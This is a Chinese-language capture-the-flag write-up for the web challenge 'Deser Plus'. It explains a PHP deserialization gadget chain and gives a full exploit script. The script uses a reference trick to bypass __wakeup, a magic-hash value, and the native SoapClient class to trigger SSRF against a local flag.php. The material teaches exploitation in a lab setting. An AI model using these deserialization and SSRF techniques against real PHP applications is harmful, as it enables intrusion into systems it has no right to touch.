 # Deser Plus

**Author:** tel

**Difficulty:** Medium

**Category:** Web

## 题目描述

php 反序列化的常见绕过技巧，你学废了吗？

## 题目解析

**暴露端口：`80`**

1. flag.php 可以将 flag 写到 flag.txt，然后可以访问 `http://xxx/flag.txt` 拿到 flag，不过需要 SSRF。使用 php 原生类 `SoapClient` 的 `__call` 函数实现 SSRF

2. `class A` 中 `__wakeup` 会将 `a` 设定为 `hacker?`，需要 php 反序列化常见的 **引用绕过**，就借助 `B::__destruct $this->b = $this->k;` 来实现重新赋值

```php
<?php

    highlight_file(__FILE__);

    // something in flag.php

    class A
    {
        public $a;
        public $b;

        public function __wakeup()
        {
            $this->a = "hacker?";
        }

        public function __invoke()
        {
            if (isset($this->a) && $this->a == md5($this->a)) {
                $this->b->uwant();
            }
        }
    }

    class B
    {
        public $a;
        public $b;
        public $k;

        function __destruct()
        {
            $this->b = $this->k;
            die($this->a);
        }
    }

    class C
    {
        public $a;
        public $c;

        public function __toString()
        {
            $cc = $this->c;
            return $cc();
        }
        public function uwant()
        {
            if ($this->a == "phpinfo") {
                phpinfo();
            } else {
                $this->a->unexist_function();
            }
        }
    }

    $b = new B();
    $a = new A();
    $b->b = &$a->a;
    $b->k = "0e215962017";
    $c1 = new C();
    $c2 = new C();
    $c1->c = $a;
    $b->a = $c1;
    $c2->a = new SoapClient(null,array('location'=>'http://127.0.0.1/flag.php', 'uri'=>'http://127.0.0.1/flag.php'));
    // $c2->a = "phpinfo";
    $a->b = $c2;
    echo serialize($b);
```
